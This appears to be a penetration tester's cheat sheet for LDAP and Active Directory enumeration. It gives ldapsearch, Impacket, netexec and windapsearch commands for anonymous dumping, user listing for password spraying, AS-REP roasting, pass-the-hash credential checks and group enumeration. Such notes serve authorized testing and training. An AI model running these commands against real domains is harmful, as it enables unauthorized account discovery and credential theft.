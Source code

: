 #enumeration #service-enumeration
# LDAP Enumeration Tools

**Note:** Be careful with brute forcing AD as you can disable user accounts due to the Account Lockout Policy. 

# ldapsearch

Simple authentication check:
```
$ ldapsearch -h <target_IP> -x
```
Anonymous Credential LDAP Dumping: 
```
$ ldapsearch -LLL -x -H ldap://<domain fqdn> -b ‘’ -s base ‘(objectclass=*)’
```
Getting DN:
```
$ ldapsearch -h <target_IP> -x -s base namingcontexts
```
- `-s` is scope: one of base, one, sub or children (search scope)

If you get DN from above command, use it in a base search (-b basedn: base dn for search)
```
$ ldapsearch -h <target_IP> -x -b "DC=<blah>,DC=<blah>"
```
You can also query the LDAP server:
```
$ ldapsearch -h <target_IP> -x -b "DC=<blah>,DC=<blah>" <query>
```
i.e. user enumeration:
```
$ ldapsearch -h <target_IP> -x -b "DC=<blah>,DC=<blah>" '(objectClass=Person)'
```
This will give a lot of useful information, i.e. when password was last reset, username of the account (sAMAccountName).

Filtering your query:
```
$ ldapsearch -h <target_IP> -x -b "DC=<blah>,DC=<blah>" '(objectClass=Person)' <filters>
```
I.e. to query for only account names:
```
$ ldapsearch -h <target_IP> -x -b "DC=<blah>,DC=<blah>" '(objectClass=Person)' sAMAccountName
```
Or use grep to get a list of account names for password spraying:
```
$ ldapsearch -h <target_IP> -x -b "DC=<blah>,DC=<blah>" '(objectClass=Person)' sAMAccountName | grep sAMAccountName | awk '{print $2}' > userlist.ldap
```

# Impacket

Using that username list generated from `ldapsearch`, we can use Impacket's `GetNPUsers.py` to see if we can get a user's TGT:
```
$ python3 GetNPUsers.py -dc-ip <target_IP> -request domain.local/ -userfile userlist.ldap -format john
```
or
```
$ GetADUsers.py -all <domain\User> -dc-ip <DC_IP>
```

You can simply change the -format flag to hashcat if you want to use hashcat. 

Or try with no password:
```
$ python3 GetNPUsers.py <domain/user> -request -no-pass -dc-ip <IP>
```

Impacket `lookupsid.py`:
```
$ /usr/share/doc/python3-impacket/examples/lookupsid.py username:password@x.x.x.x
```

# Netexec

### Authentication: 

Testing if an account exists without kerberos protocol

- nxc ldap 172.21.0.0/24 -u users.txt -p '' -k

Testing Credentials:

- nxc ldap 172.21.0.0/24 -u user -p password
- nxc ldap 172.21.0.0/24 -u user -H A29F7623FD11550DEF0192DE9246F46B

### Enumerating Group Memberships

- nxc ldap $ip -u $user -p $password -M group-mem -o GROUP="Domain Admins"

### ASREPRoasting

- nxc ldap 172.21.0.0 -u afsimmons -p '' --asreproast output.txt
- nxc ldap 172.21.0.0 -u user.txt -p '' --asreproast output.txt
# Windapsearch

Source: https://github.com/ropnop/windapsearch 
```
$ python3 windapsearch.py -d host.domain -u domain\\ldapbind -p PASSWORD -U
```



# References: 

- [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#most-common-paths-to-ad-compromise)